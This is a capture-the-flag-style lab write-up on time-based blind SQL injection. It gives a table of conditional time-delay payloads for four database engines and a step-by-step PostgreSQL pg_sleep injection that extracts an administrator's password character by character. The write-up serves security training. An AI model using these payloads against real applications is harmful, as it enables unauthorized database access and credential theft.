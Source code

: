 **<h2>Background:</h2>**

<h3>Conditional Time delays:</h3>
We can test a single boolean condition and trigger a time delay if the condition is true.
<table border=2>
<tr>
<th>Oracle</th>
<td>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual</td>
</tr>
<tr>
<th>Microsoft</th>
<td>IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'</td>
</tr>
<tr>
<th>PostgreSQL</th>
<td>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END</td>
</tr>
<tr>
<th>MySQL</th>
<td>SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')</td>
</tr>
</table>

**<h2>Problem:</h2>**
The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. We need to exploit the blind SQL injection vulnerability to find out the password of the administrator user. 

**<h2>Solution:</h2>**
- Check for the delay for the conditions `` '; select case when (1=1) then pg_sleep(10) else pg_sleep(0) end--`` which delays response for 10 seconds. But for false condition there is no delay.
- Now check if administrator user exists in users table using `` '; select case when (username='administrator') then pg_sleep(10) else pg_sleep(0) end from users--`` there is also delay hence the condition.
- Check for the length of password for administrator user ``'; select case when (username='administrator' and length(password)>1) then pg_sleep(10) else pg_sleep(0) end from users--`` causes 10s delay verifying both conditions.
- Now forward the request to intruder and automate the length condition which gives us length to be 20.
![alt text](/images/lab15lengthofpw.png)
- Now check password using cluster bomb attack where we check for each character for each substring``'; select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(10) else pg_sleep(0) end from users--`` 
![alt text](/images/lab15result.png)
- After getting password login as administrator to solve the lab.

